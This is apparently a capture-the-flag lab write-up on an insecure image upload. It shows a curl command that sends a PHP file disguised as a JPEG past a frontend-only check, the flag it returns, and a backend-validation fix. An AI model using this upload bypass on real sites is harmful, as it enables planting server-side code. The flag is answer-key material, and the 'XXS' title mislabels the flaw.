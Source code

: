 # 09_XXS_Attack

Unsecure file upload of image in the upload.
http://192.168.99.100/index.php?page=upload

## How to see it

Go on the page mentionned before.
We are going to force the frontend to accept a php file by using curl.
Since there is no check of the file in backend our php file will pass...
What we will do there is just curl this script.php file which contains nothing

```bash
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@script.php;type=image/jpeg' http://192.168.99.100/index.php\?page\=upload\# | grep "flag"
```
Which will give us
```bash
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## How to abuse of it

Thsi is really dangerous. Image being able to send php request into the website / backend.

## How to patch it

Check in backend the type and the header of the file, not only in frontend.
